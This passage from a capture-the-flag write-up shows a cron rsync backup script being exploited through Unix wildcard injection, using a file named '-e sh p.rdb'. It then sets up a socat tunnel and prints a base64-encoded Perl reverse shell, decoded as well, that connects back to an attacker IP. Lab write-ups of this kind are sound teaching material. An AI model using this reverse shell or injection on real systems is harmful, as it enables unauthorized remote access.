 Running it shows some interesting scripts being run about every 3 minutes:

```

$ ./proc.sh
> /usr/sbin/CRON
> /bin/sh -c sh /backup/backup.sh
> sh /backup/backup.sh
> rsync -a rsync://backup:873/src/backup/ /var/www/html/
> rsync -a rsync://backup:873/src/backup/ /var/www/html/

```

Looking at `/backup/backup.sh`, it is saving the database, then removing the web folders and bringing them back in from a host named backup:

```

cd /var/www/html/f187a0ec71ce99642e4f0afbd441a68b
rsync -a *.rdb rsync://backup:873/src/rdb/
cd / && rm -rf /var/www/html/*
rsync -a rsync://backup:873/src/backup/ /var/www/html/
chown www-data. /var/www/html/f187a0ec71ce99642e4f0afbd441a68b

```

### Exploiting the Wildcard

I can exploit the command `rsync -a *.rdb rsync://backup:873/src/rdb`, specifically the wildcard character. Because of how Unix handles wildcards, I can create a file named `-e sh p.rdb`, and that will evaluate to run `sh p.rdb`. The technique is detailed [here](https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt).

I’ll first set up a tunnel on nodered:

```

# /tmp/s tcp-listen:9010,fork tcp:10.10.14.14:9010 &

```

Now write a perl reverse shell into a file and create the other file to run it. I’ll use base64 to easily move small files back and forth:

```

root@kali# echo cGVybCAtZSAndXNlIFNvY2tldDskaT0iMTcyLjE5LjAuMyI7JHA9OTAxMDtzb2NrZXQoUyxQRl9JTkVULFNPQ0tfU1RSRUFNLGdldHByb3RvYnluYW1lKCJ0Y3AiKSk7aWYoY29ubmVjdChTLHNvY2thZGRyX2luKCRwLGluZXRfYXRvbigkaSkpKSl7b3BlbihTVERJTiwiPiZTIik7b3BlbihTVERPVVQsIj4mUyIpO29wZW4oU1RERVJSLCI+JlMiKTtleGVjKCIvYmluL3NoIC1pIik7fTsnCg== | base64 -d
perl -e 'use Socket;$i="172.19.0.3";$p=9010;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```
